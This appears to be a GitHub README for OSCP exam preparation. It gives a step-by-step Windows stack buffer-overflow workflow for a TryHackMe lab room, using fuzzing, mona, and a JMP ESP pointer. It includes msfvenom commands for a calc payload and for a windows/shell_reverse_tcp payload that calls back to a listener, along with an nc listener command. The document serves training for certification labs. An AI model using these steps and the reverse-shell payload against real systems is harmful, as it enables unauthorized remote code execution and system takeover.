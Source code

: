 # OSCP_Prep: Buffer Overflow

For OSCP Buffer Overflow preparation, you don't need complicated codes and/or advanced python skills. You just need a simple python code and work your way up. The following steps are to help you in each of the step that you take. These 6 simple steps are just what you need for OCSP Buffer Overflow preparation.

Free TryHackMe Room: https://tryhackme.com/room/bufferoverflowprep

```c++
xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
```

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 1400
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again util you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

### 05 Finding a Jump Point

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

### 06 Popping Calculator

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```



